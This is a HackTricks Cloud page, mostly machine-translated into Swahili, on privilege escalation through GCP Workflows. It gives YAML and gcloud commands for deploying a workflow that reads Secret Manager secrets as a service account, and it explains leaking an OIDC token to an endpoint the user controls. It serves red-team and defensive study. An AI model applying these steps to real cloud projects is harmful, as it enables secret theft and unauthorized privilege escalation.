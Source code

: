 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Kama ninavyofahamu si rahisi kupata shell yenye ufikiaji wa metadata endpoint inayoshikilia akidi za SA za SA iliyoshambuliwa kwa Workflow. Hata hivyo, inawezekana kutumia vibaya ruhusa za SA kwa kuongeza vitendo vya kutekeleza ndani ya Workflow.

Inawezekana kupata nyaraka za viunganishi. Kwa mfano, hii ni [**ukurasa wa kiunganishi cha Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Katika upande wa bar, inawezekana kupata viunganishi vingine vingi.

Na hapa unaweza kupata mfano wa kiunganishi kinachochapisha siri:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Sasisha kutoka CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ikiwa unapata kosa kama `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, **ngoja dakika moja na ujaribu tena**.

Ikiwa huna ufikiaji wa wavuti, inawezekana kuanzisha na kuona utekelezaji wa Workflow kwa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Unaweza pia kuangalia matokeo ya utekelezaji wa awali kutafuta taarifa nyeti
{% endhint %}

Kumbuka kwamba hata kama unapata kosa kama `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` kwa sababu huna ruhusa hiyo, workflow imeundwa.

### Leak OIDC token (na OAuth?)

Kulingana na [**nyaraka**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) inawezekana kutumia hatua za workflow ambazo zitatumia ombi la HTTP na token ya OAuth au OIDC. Hata hivyo, kama ilivyo katika kesi ya [Cloud Scheduler](gcp-cloudscheduler-privesc.md), ombi la HTTP lenye token ya Oauth lazima liwe kwa mwenyeji `.googleapis.com`.

{% hint style="danger" %}
Kwa hivyo, ni **uwezekano kuvuja token ya OIDC kwa kuashiria mwisho wa HTTP** unaodhibitiwa na mtumiaji lakini ili kuvuja token ya **OAuth** unahitaji **kupita** kwa ulinzi huo. Hata hivyo, bado unaweza **kuwasiliana na api yoyote ya GCP ili kutekeleza vitendo kwa niaba ya SA** ukitumia ama viunganishi au maombi ya HTTP yenye token ya OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Kwa ruhusa hii badala ya `workflows.workflows.create` inawezekana kuboresha workflow iliyopo tayari na kufanya mashambulizi sawa.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
